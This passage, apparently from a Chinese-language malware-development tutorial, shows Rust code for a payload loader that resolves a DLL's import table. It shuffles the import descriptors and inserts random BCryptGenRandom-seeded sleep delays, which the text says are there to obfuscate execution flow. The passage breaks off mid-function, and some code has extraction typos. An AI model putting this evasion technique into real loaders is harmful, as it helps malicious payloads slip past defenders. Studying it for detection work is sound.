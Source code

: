   
  
解决导入问题  
  
现在，为了确保有效载荷正确运行，我们必须通过处理导入表来解决其外部依赖关系。  
  
在 DLL 的数据目录中，我们重点关注IMAGE_DIRECTORY_ENTRY_IMPORT索引，即导入目录所在的位置。该目录包含一个IMAGE_IMPORT_DESCRIPTOR结构体数组，每个结构体代表一个 DLL，模块将从该 DLL 中导入函数。  
  
在此步骤中，我们还利用了 shuffle 和 sleep 调用来混淆执行流。首先，我们使用  
Fisher–Yates 就地 shuffle 算法对导入描述符进行 shuffle-  
https://en.wikipedia.org/wiki/Fisher%E2%80%93Yates_shuffle  
：  
  

```
let mut id_ptr = import_descriptor_ptr;
let mut import_count = 0;

while (*id_ptr).Name != 0 {
    import_count += 1;
    id_ptr = id_ptr.add(1);
}

let id_ptr = import_descriptor_ptr;

if import_count > 1 && flags.shuffle {
    // Fisher-Yates shuffle
    for i in0..import_count - 1 {
        let rn = match get_random(far_procs) {
            Some(rn) => rn,
            None => return0,
        };

        let gap = import_count - i;
        let j_u64 = i + (rn % gap);
        let j = j_u64.min(import_count - 1);

        id_ptr.offset(j as _).swap(id_ptr.offset(i as _));
    }
}
```

  
  
然后，在迭代过程中，我们调用BCryptGenRandomwithBCRYPT_RNG_ALG_HANDLE作为hAlgorithm参数来为每次迭代生成一个随机睡眠持续时间：  
  

```
if flags.delay {
    // skip delay if winapi call fails
    let rn = get_random(far_procs).unwrap_or(0);
    let delay = rn % MAX_IMPORT_DELAY_MS;
    (far_procs.Sleep)(delay as _);
}

#[link_section = &#34;.text&#34;]
unsafe fn get_random(far_procs: &FarProcs) -> Option<u64> {
    let mut buffer = [0u8; 8];
    let status = (far_procs.BCryptGenRandom)(
        BCRYPT_RNG_ALG_HANDLE,
        buffer.as_mut_ptr(),
        buffer.len() as _,
        0,
    );

    if status != STATUS_SUCCESS {
        return None;
    }

```
